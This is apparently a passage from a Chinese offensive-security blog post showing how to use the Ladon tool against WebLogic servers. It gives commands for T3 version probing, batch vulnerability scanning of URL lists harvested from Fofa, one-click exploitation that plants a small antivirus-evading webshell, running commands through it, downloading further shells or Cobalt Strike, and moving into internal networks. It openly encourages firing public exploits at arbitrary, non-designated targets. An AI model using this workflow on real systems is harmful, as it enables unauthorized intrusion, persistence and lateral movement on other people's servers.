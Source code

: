     
    
    ##### 195 T3协议探测WebLogic版本Ladon 192.168.1.8/24 T3InfoLadon 192.168.1.8:7001 T3InfoLadon http://192.168.1.8:7001 T3InfoLadon url.txt T3Info

通过Fofa或相关搜索引擎导出url.txt，但由于数据更新不及时的原因，有些URL可能已不是weblogic或者版本信息与上面不一致，这时需要使用Ladon进行精准探测，其它APP或产品也一样，可使用WhatCMS识别，确认版本好定制POC。对于指定目标内网或外网，相关搜索引擎也不定扫描到它们的C段，这种情况下同样需要Ladon，外网访问不到的内网就更不说了，相关搜索引擎更加识别不到。  

![](https://gitee.com/fuli009/images/raw/master/public/20230223091439.png)

探测目标确实使用weblgoic后，我们可POC或EXP指定IP

![](https://gitee.com/fuli009/images/raw/master/public/20230223091440.png)

当然也可以不探测版本，直接使用WeblogicPoc模块批量探测漏洞，公开POC随便打不要钱，非指定目标也不怕拦，本身POC就公开，拦本就正常。

  *   *   * 

    
    
    Ladon 192.168.1.8/24 WeblogicPocLadon http://192.168.1.8:7001 WeblogicPocLadon url.txt WeblogicPoc

  

![](https://gitee.com/fuli009/images/raw/master/public/20230223091441.png)

 **WebLogicExp一键GetShell**

  * 

    
    
     Ladon 192.168.1.8/24 WeblogicExp

![](https://gitee.com/fuli009/images/raw/master/public/20230223091443.png)

默认植入的是Ladon的ua
shell可过很多杀软，体积也非常小1k都不到,成功getshell后，大家再自行通过各种命令更换免杀好的其它webshell操作  

 **连接WebShell执行命令**

  * 

    
    
     Ladon911 JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

![](https://gitee.com/fuli009/images/raw/master/public/20230223091444.png)

可以看到这名幸运观众为Linux系统，我们可以wget自己的其它shell到目标，更方便操作。windows就使用powershell等命令下载或直接上CS  

![](https://gitee.com/fuli009/images/raw/master/public/20230223091445.png)

后渗透的时就不用我教了，甚至进到内网，还可以再扫一波，外网都使用，搞不好内网可能也会有weblogic，不管任何时候都要懂得举一反一，吃黄豆拉豆芽，能打外网web，内网web也一样，别忘了Ladon最初设计就是专门针对内网的。但又有人误以为只能打内网，于是我又发了各种打外网的文章。

 **0x004 VulScan 多POC漏洞探测**

如果你不熟悉相关漏洞，同样可以使用PocScan或VulScan一键检测目标存在哪些高危漏洞。如下图，针对指定IP，加载Ladon内置的很多POC检测漏洞。如本文没有提到的Struts2Poc，当然S2漏洞我已经很久没见到了，所以几乎没更新，内置POC基本为当初GUI上的POC，区别在于Ladon可批量检测。  
